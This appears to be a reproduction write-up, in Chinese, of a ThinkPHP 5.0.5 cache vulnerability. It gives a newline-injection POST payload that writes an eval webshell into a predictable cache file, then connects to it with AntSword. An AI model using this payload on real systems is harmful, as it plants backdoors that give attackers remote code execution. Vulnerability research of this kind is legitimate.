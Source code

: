 # Thinkphp 5.0.5 缓存漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3160](https://www.zhihuifly.com/t/topic/3160)

# Thinkphp 5.0.5 缓存漏洞

## 一、漏洞简介

## 二、漏洞影响

Thinkphp 5.0.5

## 三、复现过程

### 漏洞分析

*   漏洞代码与3.2.3差不多，不一样的在缓存目录

    ```
    protected function getCacheKey($name)
        {
            $name = md5($name);
            if ($this->options['cache_subdir']) {
                // 使用子目录
                $name = substr($name, 0, 2) . DS . substr($name, 2);
            }
            if ($this->options['prefix']) {
                $name = $this->options['prefix'] . DS . $name;
            }
            $filename = $this->options['path'] . $name . '.php';
            $dir      = dirname($filename);
            if (!is_dir($dir)) {
                mkdir($dir, 0755, true);
            }
            return $filename;
        } 
    ```

*   在index控制器写如下代码：

![image](img/f02690dc5f2f315e8de21db35bb35f19.png)

*   之后访问 `http://www.0-sec.org/public/index.php/Home/index`POST数据：`con=%0aeval($_POST['cmd']);%0d//`
*   最终在 `runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`文件生成shell：

![image](img/585ccdc98e3d4a77f6d1129518926c69.png)

之后访问蚁剑 `http://www.0-sec.org/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`

![image](img/64f52c726b205ed9fae1d14dc7be7833.png)

### 小结

### Thinkphp5.0.5

1.  漏洞文件位置(一般审计得出)

    `http://www.0-sec.org/public/index.php/Home/Index/index`

    POST数据 :`con=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件位置b0文件夹是md5(cache-name)前2位。

    `http://www.0-sec.org/runtime/cache/b0/b068931cc450442b63f5b3d276ea4297.php`

3.  蚁剑连接

## 参考链接

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/)